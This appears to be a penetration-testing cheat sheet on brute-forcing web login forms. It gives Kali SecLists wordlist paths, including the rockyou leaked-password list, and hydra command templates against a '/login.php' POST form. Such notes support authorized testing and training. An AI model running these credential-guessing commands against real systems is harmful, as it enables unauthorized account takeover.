 ```yaml
---
id: login-brute-force
title: Login brute force
---
```


# Login brute force

## Lists in Kali

### Usernames and passwords

```
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
```

### Usernames

```
/opt/useful/SecLists/Usernames/Names/names.txt
```

### Passswords

```
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

## hydra

### Using a user and password list

```bash
hydra -C <list> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:Login"
```

### Using user admin and password list

```bash
hydra -l admin -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```

### Using different lists for username and password

```bash
hydra -L <usernames> -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```
